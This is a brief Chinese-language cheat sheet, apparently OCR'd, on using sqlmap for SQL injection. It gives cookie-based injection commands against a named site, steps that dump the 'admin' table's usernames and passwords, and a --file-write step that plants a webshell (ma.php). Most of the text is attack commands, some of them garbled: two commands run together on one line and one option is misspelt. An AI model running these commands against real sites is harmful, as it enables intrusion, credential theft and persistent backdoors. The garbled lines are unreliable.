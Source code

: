 sqlmap工具使用 

sqlmap的探测等级 

级别 1 get post 
级别 2 cookie 

vulnerable to attack 脆弱的易攻击 

```cmd
sqlmap进行cookie·注入 
sqlmap.py -u "www.xxuser.com/shownews.asp"  --cookie "id = 16" --level 2 sqlmap.py -u "www.xxuser.com/shownews.asp"  --cookie "id = 16" --level 2  --tables //猜解表 
sqlmap.py -u "www.xxuser.com/shownews.asp"  --cookie "id = 16" --level 2 --colunms -T "admin" 
sqlmap.py -u "www.xxuser.com/shownews.asp"  --cookie "id = 16" --level 2 --dump -C "username,password" -T "admin" 
sqlmap 实现webshell的插入 
sqlmap.py -u "" --is-dba  // 判断是否是管理员 
sqlmap.py -u "" --file-write"D:/ma.php" --file-dest "?网站物理路径?" 
```

